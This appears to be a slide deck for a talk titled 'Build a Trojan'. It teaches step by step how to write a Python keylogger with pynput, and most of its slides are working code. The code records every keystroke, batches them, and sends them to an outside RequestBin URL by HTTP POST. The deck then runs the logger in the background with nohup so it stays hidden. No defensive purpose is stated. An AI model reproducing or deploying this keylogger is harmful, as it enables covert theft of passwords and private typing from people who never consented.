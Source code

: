 class: center, middle

# trojan.saurabhn.com

---

class: center, middle

# @EXTREMOPHILARUM

---
class: center, middle

# #BuildATrojan

---

# Here's the Agenda

1. History
2. The virus
3. Building one

---
# History

.center[![Trojan](https://allthatsinteresting.com/wordpress/wp-content/uploads/2021/12/still-from-troy.png)]

---
class: center, middle
# Trojan Virus

.center[![Trojan](https://autodesk.blogs.com/.a/6a00d8341bfd0c53ef01b8d29a32e9970c-pi)]

---
class: center, middle
# Building a Trojan

---
class: center, middle

# Prerequisites
```bash
pip install pynput
```

---
### Step 1: Lets print all keystrokes to the console


```python
from pynput.keyboard import Key, Listener

def on_press(key):
    print(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
```

---
### Step 2: Lets print a line to the console when a key is pressed

```python
from pynput.keyboard import Listener
keys = ''
def send_keys():
    global keys
    print(keys)
    keys = ''

def on_press(key):
    global keys
    str_key = str(key)
    if str_key == "Key.tab":
        str_key = '\t'
    elif str_key == "Key.enter":
        str_key = '\n'
    elif str_key == "Key.space":
        str_key = ' '
    elif str_key == "Key.backspace":
        str_key = ' bspace '
    elif "Key" in str_key:
        str_key = str_key.replace("Key.", "")
        str_key = f" {str_key} "
    keys += str_key.strip('\'')
    if len(keys) >= 20:
        send_keys()

with Listener(on_press=on_press) as listener:
    listener.join()
```

---

### Step 3: Lets create a request bin

- Open [Request bin](https://requestbin.net/)

- Click **Create a RequestBin** 
---
### Step 4: Sending data to the bin
```python
from pynput.keyboard import Key, Listener
import requests
keys = ''
request_bin_url = 'https://{request bin url}'
def send_keys():
    global keys
    print(keys)
    requests.post(request_bin_url, data=keys)
    keys = ''
def on_press(key):
    global keys
    str_key = str(key)
    if str_key == "Key.tab":
        str_key = '\t'
    elif str_key == "Key.enter":
        str_key = '\n'
    elif str_key == "Key.space":
        str_key = ' '
    elif str_key == "Key.backspace":
        str_key = ' bspace '
    elif "Key" in str_key:
        str_key = str_key.replace("Key.", "")
        str_key = f" {str_key} "
    keys += str_key.strip('\'')
    if len(keys) >= 20:
        send_keys()

with Listener(on_press=on_press) as listener:
    listener.join()
```

---
### Step 5: Lets make it a bit more stealthy

```bash
nohup python3 send_line.py &
```

---
class: center, middle

# Any questions?
